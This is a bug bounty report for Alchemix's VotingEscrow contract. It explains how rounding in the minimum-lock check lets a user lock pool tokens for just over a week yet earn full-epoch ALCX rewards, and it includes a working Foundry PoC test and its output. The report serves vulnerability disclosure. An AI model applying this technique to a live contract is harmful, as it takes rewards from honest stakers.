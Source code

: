 
# BPT can be locked for only 1 week, resulting in unfair ALCX reward distribution

Submitted on May 16th 2024 at 03:32:46 UTC by @marchev for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31276

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The 80/20 ALCX/WETH BPT has a minimum lock period of 1 epoch (2 weeks). However, a flaw allows malicious actors to lock their BPT for just 1 week, resulting in unfair ALCX reward distribution. This means a malicious actor can unfairly claim rewards without meeting the minimum 2-week lock requirement.

## Vulnerability Details

The `_createLock()` function is responsible for creating a lock when depositing Balancer Pool Tokens in `VotingEscrow`. It should enforce a minimum lock period of 1 epoch (2 weeks):

```sol
    function _createLock(
        uint256 _value,
        uint256 _lockDuration,
        bool _maxLockEnabled,
        address _to
    ) internal returns (uint256) {
	    // ...
        uint256 unlockTime = /** ... */ ((block.timestamp + _lockDuration) / WEEK) * WEEK;

        // ...
        require(unlockTime >= (((block.timestamp + EPOCH) / WEEK) * WEEK), "Voting lock must be 1 epoch");

        // ...
    }
```

However, this check is flawed. A malicious actor can lock BPTs for just 1 week instead of the required 2 weeks. This allows them to unjustly receive rewards as if they had locked their BPTs for a whole epoch, effectively stealing rewards from other participants.

**Example Scenario:**

- Next epoch starts at `1717632000` (Thu Jun 06 2024 00:00:00 UTC)

1. Alice locks 1 BPT for `2 weeks` (1 epoch) at `block.timestamp = 1716422401` (Thu May 23 2024 00:00:01 UTC)
2. Bob locks 1 BPT for `7 days + 1 seconds` at `block.timestamp = 1717027199` (Wed May 29 2024 23:59:59 UTC)
3. The epoch resets on `1717632000` (Thu Jun 06 2024 00:00:00 UTC)

**Expected behavior:** Bob should not be able to lock his BPT for less than 1 epoch (2 weeks).

**Actual behavior:** Alice and Bob receive equal rewards.

Bob circumvents the minimum lock duration check. Here’s why:

```sol
block.timestamp = 1717027199

unlockTime = ((block.timestamp + _lockDuration) / WEEK) * WEEK

unlockTime = ((1717027199 + 7 days + 1 seconds) / WEEK) * WEEK

unlockTime = 1717632000
```

The check performed:

```
unlockTime >= (((block.timestamp + EPOCH) / WEEK) * WEEK)

1717632000 >= (((1717027199 + 2 weeks) / 1 weeks) * 1 weeks)

1717632000 >= 1717632000
```

The check passes for Bob, even though his lock time is only `7 days + 1 second`.

## Impact Details

The flawed minimum lock time check allows users to lock BPTs for only 1 week but still receive rewards for a full epoch. This results in unfair reward distribution, with malicious users effectively stealing rewards from others.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1375-L1381



## Proof of Concept

The following coded PoC demonstrates the issue.

Add the following test case to `VotingEscrow.t.sol`:

```sol
    function test_can_create_lock_for_less_than_1_epoch() public {
        console.log(newEpoch());

        address alice = address(1337);
        vm.label(alice, "Alice");
        address bob = address(31337);
        vm.label(bob, "Bob");

        // Mint Alice & Bob some BPT
        deal(bpt, alice, 10e18);
        deal(bpt, bob, 10e18);

        // Warp time to exactly 2 weeks before the new epoch
        hevm.warp(newEpoch() - 2 weeks); 

        hevm.startPrank(alice);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 aliceTokenId = veALCX.createLock(1e18, 2 weeks, false);
        voter.reset(aliceTokenId);
        // Alice locks 1 BPT for 2 weeks (the minimum lock period) and reset the tokenId
        hevm.stopPrank();

        // Warp time to 7 days and 2 seconds before the next epoch starts
        hevm.warp(newEpoch() - (7 days + 2 seconds));

        hevm.startPrank(bob);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 bobTokenId = veALCX.createLock(1e18, 7 days + 1 seconds, false);
        // Bob succeeds in locking 1 BPT for 7 days + 1 seconds which is less than the required minimum lock period of 1 epoch (2 weeks)
        voter.reset(bobTokenId);
        hevm.stopPrank();

        // Warp time to the start of the new epoch
        hevm.warp(newEpoch());

        // Distribute the rewards
        voter.distribute();

        // Print the unclaimed rewards accrued by Alice & Bob
        console.log("Unclaimed ALCX (Alice): %s", distributor.claimable(aliceTokenId));
        console.log("Unclaimed FLUX (Alice): %s", flux.getUnclaimedFlux(aliceTokenId));

        console.log("Unclaimed ALCX (Bob): %s", distributor.claimable(bobTokenId));
        console.log("Unclaimed FLUX (Bob): %s", flux.getUnclaimedFlux(bobTokenId));
    }
```

Make sure the following entries are updated in `Makefile`:

```sh
# file to test 
FILE=VotingEscrow

# specific test to run
TEST=test_can_create_lock_for_less_than_1_epoch
```

Run the PoC via:

```sh
make test_file_test
```

PoC output:

```sh
Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] test_can_create_lock_for_less_than_1_epoch() (gas: 3647937)
Logs:
  Unclaimed ALCX (Alice): 1023262077024604404512
  Unclaimed FLUX (Alice): 38356132673449616
  Unclaimed ALCX (Bob): 1023262077024604404512
  Unclaimed FLUX (Bob): 19178113901412783

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 45.46s (33.49s CPU time)

Ran 1 test suite in 46.90s (45.46s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```